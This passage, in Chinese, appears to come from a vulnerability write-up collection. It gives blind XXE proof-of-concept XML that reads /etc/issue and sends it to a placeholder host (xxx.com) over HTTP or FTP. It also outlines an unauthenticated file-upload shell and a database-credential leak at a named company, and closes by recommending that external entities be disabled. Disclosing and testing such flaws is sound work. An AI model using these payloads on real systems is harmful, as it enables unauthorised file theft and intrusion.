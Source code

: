姿势：  
漏洞验证：参数url存在xxe风险，无回显，用服务器日志验证，只要服务器接收到来源于解析服务器的请求，就证明存在XXE  
漏洞利用：POC
```xml
<!--文件1:-->
<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://xxx.com/2">
%remote;
]>
</root>

```
```xml
<!--文件2:-->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % payload SYSTEM	"file:///etc/issue">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://xxx.com/%payload;'>">
%int;
%trick;
]>
</root>

```
不成功，有两种办法，改为ftp或者gopher
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE root[
<!ENTITY % payload SYSTEM	"file:///etc/issue">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'ftp://xxx.com/%payload;'>">
%int;
%trick;
]>
</root>

```
ftp协议，于是wireshark抓包，可以读取到/etc/issue文件。  


##### 满堂红集团任意文件上传getshell以及blind xxe
姿势：  
- 文件上传页面未授权可访问
- 文件上传直接getshell
- jboss sms_DS-ds.xml文件泄漏数据库信息从而导致信息泄漏  
blind xxe  
- 找到xml接口，直接post payload
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "/root">
%remote;
]>
```
显示500，/root是一个目录，说明成功解析。  
解决方案：禁止xml外部实体解析
